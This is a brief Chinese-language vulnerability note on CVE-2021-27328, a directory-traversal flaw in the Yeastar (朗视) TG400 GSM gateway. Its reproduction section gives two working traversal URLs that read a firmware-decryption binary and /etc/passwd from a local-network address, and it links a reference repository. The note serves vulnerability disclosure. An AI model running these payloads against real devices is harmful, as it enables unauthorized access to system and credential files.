 # 朗视 TG400 GSM 网关目录遍历 CVE-2021-27328

# 朗视 TG400 GSM 网关目录遍历 CVE-2021-27328

## 漏洞描述

朗视 TG400 GSM 网关存在目录遍历 ，攻击者可以通过漏洞获取敏感信息

## 漏洞影响

```
朗视 TG400 GSM 网关
```

## 漏洞复现

暂无FOFA语句及固件设备复现

```plain
获取固件解密密码
http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../bin/firmware_detect
/etc/passwd：
http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../etc/passwd
```

## 参考文章

https://github.com/SQSamir/CVE-2021-27328

